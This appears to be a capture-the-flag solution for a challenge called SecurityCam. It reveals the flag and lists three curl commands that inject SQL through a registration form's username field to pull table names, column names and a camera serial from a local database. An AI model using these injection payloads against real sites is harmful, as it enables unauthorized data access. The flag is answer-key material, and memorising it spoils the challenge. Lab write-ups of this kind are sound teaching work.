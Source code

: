 # SecurityCam #
SecurityCam is a website where users can login to remotely view their camera feeds.
After logging in it serves a video which contains the flag.

## Solution ##

The flag (MCA{oM0kcuLkPk}) can be found in the video.  The video can be accessed by logging in to the website.
Table name can be found by running 
`curl --data "uname=';  SELECT table_name from information_schema.tables -- " locahost:4567/register`
Column names can be found by running 
`curl --data "uname=';  select column_name from information_schema.columns where table_name='cameras'  -- " localhost:4567/register`
Serial number can be found by running
`curl --data "uname='; select serial from cameras where 1=1 -- " localhost:4567/register`
Then register a new account (all that is really needed is something for a username and the serial number from the database).
Successful registration shows the video that contains the flag.